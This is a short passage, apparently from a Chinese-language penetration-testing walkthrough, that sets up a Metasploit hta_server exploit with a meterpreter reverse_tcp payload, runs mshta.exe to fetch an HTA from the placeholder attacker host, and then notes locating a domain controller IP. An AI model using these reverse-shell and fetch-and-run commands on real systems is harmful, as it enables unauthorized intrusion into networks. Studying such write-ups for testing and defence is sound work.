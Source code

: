     ```bash
    use exploit/windows/misc/hta_server
    set payload windows/meterpreter/reverse_tcp
    set lhost xx.xx.xx.xx
    set lport 6666
    ```
    
    执行 mshta.exe [http://xx.xx.xx.xx/pKz4Kk059Nq9.hta](http://xx.xx.xx.xx/pKz4Kk059Nq9.hta)  
    [![](assets/1698896982-57af87ded2685775c788905428874eae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185241-c4ab51e0-6061-1.png)
    
-   查找了下域控 ip 192.168.30.61  
    [![](assets/1698896982-ab06c1bffb2a17ec0d291a3655fe5abc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307185313-d7d8beec-6061-1.png)
    
-   这里存活 ip 检测不够准确 (后面 cs 扫还有给.11 主机)  